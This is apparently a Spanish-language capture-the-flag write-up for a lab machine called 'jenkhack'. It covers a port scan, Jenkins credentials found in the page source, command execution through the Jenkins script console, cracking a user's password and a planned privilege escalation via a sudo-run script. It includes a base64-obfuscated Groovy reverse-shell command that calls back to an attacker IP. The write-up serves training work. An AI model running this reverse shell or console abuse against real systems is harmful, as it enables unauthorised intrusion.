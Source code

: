```yaml
---
Maquina: jenkhack
SO: Linux
Explotación: Análisis web/wordpress y fuerza bruta
Escala_privs: Permisos sudo y mysql
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - fuerza_bruta
  - wordpress
  - mysql
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241114085041.png]]

Por lo que vemos tenemos varios puertos abiertos, así que vamos a ir uno por uno a ver que vemos. El que me da más curiosidad es el 443 así que vamos a intentar analizarlo.

Vamos a analizar el portal web que nos ofrece este contenedor.

![[Pasted image 20241114090425.png]]

Si pasamos a analizar el repositorio web no vamos a encontrar gran cosa de utilidad, vemos que se trata de una aplicación de Jenkins

![[Pasted image 20241118105305.png]]

Pero si llegamos a analizar el código fuente de la página podemos encontrar cosas muy curiosas..

![[Pasted image 20241118105333.png]]
![[Pasted image 20241118105341.png]]

Es un poco curioso, para como un usuario y contraseña -> cassandra:jenkins-admin o al revés.

Y parece que estamos dentro!

![[Pasted image 20241118105455.png]]

Dentro de jenkins podemos ir a administrar jenkins -> script console y desde ahí ejecutar comandos.

```Groovy
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Y ahora si que estamos dentro del sistema ;)

![[Pasted image 20241118110305.png]]

Ahora toca hacer un poco de tratamiento de terminal y ver si podemos escalar privs...

![[Pasted image 20241118110618.png]]

Vemos una posible forma de poder hacernos con el usuario jenkhack... Pero parece una constraseña cifrada, si utilizamos la web de cyberchef podemos descifrarla con facilidad -> jenkinselmejor.

Finalmente si miramos los permisos de este usuario....

![[Pasted image 20241118110756.png]]

![[Pasted image 20241118111009.png]]

Vamos a ver que contiene ese script..

![[Pasted image 20241118111030.png]]

una cosa graciosa que podemos hacer es borrar este archivo y poner otro que se llame igual pero con las instrucciones que queramos...










